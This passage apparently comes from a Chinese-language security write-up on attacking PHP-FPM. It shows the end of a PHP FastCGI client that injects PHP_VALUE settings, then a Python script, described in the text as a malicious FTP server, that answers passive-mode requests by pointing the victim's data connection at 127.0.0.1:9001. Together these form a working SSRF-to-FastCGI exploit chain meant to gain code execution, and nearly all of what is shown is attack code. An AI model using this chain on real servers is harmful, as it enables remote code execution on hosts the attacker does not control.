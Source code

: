 ```plain
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

[![](assets/1698897074-a03f460d886dda4f77085bf4d9e1fde2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-9667f37e-b2e5-1.png)

然后执行以下脚本自己 vps 上搭建一个恶意的 ftp 服务器：

```plain
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```